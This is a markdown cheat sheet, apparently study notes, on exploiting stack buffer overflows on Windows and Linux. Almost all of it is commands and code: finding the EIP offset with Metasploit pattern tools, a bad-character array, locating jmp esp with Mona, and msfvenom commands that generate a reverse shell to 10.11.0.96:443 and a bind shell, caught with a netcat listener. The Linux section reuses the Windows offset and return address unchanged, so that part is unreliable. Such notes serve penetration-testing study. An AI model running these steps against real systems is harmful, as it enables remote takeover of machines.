 # Bof and controlling EIP
## Windows
- Create the pattern for specification input value
  ~~~
  locate pattern_create
  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
  ~~~

- Send the request include the above pattern and check the offset
- Search locate in the pattern
  ~~~
  locate pattern_offset
  /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 37694236
  [*] Exact match at offset 2606
  ~~~

- buffer
  ~~~
  buffer = 'A' * 2606 + 'B' * 4 + 'C' * 90
  ~~~

- check available bad charactor
  ~~~
  badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff\x00" )
  buffer = 'A' * 2606 + 'B' * 4 + badchars
  ~~~

- Finding a Return Address(eip > esp > stack instructions)
  - Mona.py on Immunity Debugger
    ~~~
    !mona modules
    ~~~
    memory protection schemes > all 'false' dll is  vulnerability

  - check opcode(jmp esp)
    - on Kali
      ~~~
      /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
      nasm>jmp esp
      00000000  FFE4              jmp esp
      ~~~
    - Immunity Debugger on Windows
      ~~~
      !mona find -s "\xff\xe4" -m slmfc.dll
      ~~~

  - Set 5F4A358F(jmp esp) to 'B'
    ~~~
    buffer = 'A' * 2606 + '\x8f\x35\x4a\x5f' + 'C' * (3500-2606-4)
    ~~~

- Create payload
  - Check payload
    ~~~
    msfvenom -l payloads
    ~~~
  - Use msfvenom
    - c for windows
      ~~~
      msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.96 LPORT=443 -f c -a x86 --platform windows
      msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.96 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai EXITFUNC=thread
      ~~~
    - python for windows
      ~~~
      msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.96 LPORT=443 -f python -a x86 --platform windows
      msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.96 LPORT=443 -f python -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai EXITFUNC=thread
      ~~~
  - Setup Server
      ~~~
      nc -lvnp 443
      ~~~

## Linux
- Create pattern for spefication input value
  ~~~
  locate pattern_create
  /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700
  ~~~

- Search locate in the pattern
  ~~~
  locate pattern_offset
  /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046
  [*] Exact match at offset 2606
  ~~~

- buffer
  ~~~
  buffer = 'A' * 2606 + 'B' * 4 + 'C' * 90
  ~~~

- check available bad charactor
  ~~~
  badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff\x00" )
  buffer = 'A' * 2606 + 'B' * 4 + badchars
  ~~~

- Finding a Return Address(eip > esp > stack instructions)
  - Mona.py on Immunity Debugger
    ~~~
    !mona modules
    ~~~
    memory protection schemes > all 'false' dll is  vulnerability

  - check opcode(jmp esp)
    - on Kali
      ~~~sh
      /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
      nasm>jmp esp
      00000000  FFE4              jmp esp
      ~~~
    - edb on Linux
      - Plugins > OpcodeSearcher
  - Set 5F4A358F(jmp esp) to 'B'
    ~~~
    buffer = 'A' * 2606 + '\x8f\x35\x4a\x5f' + 'C' * (3500-2606-4)
    ~~~

- Create payload
  - Check payload
    ~~~
    msfvenom -l payloads
    ~~~
  - Use msfvenom
    ~~~
    msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai
    msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai EXITFUNC=thread
    ~~~
  - Connect
    - server
      ~~~
      nc -lvnp 443
      ~~~


